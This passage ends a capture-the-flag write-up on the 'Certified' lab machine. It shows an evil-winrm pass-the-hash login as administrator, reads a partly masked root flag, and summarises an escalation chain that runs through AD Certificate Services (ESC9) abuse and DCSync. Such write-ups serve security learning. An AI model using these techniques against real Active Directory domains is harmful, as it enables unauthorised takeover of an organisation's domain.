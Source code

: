 ```text
evil-winrm -i certified.htb -u administrator -H 0d5b49608bbce1751f708748f67e2d34
                                        
Evil-WinRM shell v3.7          
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
909a1******************
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## Conclusion

The Certified box demonstrates a common and realistic Active Directory escalation chain: a low-privilege service account (management_svc) with write/modify rights over higher-value objects can be leveraged to abuse AD Certificate Services and obtain full domain control. In this engagement we moved from an initial foothold on management_svc to control over CA-related objects, used that control to request/issue a certificate for a privileged identity (AD CS / ESC9 abuse), and then leveraged that certificate to authenticate as a high-privilege account and perform domain-level actions (including DCSync). Compared to purely “graphical” BloodHound paths, the AD CS route here was the most practical and reliable escalation vector in the target environment.
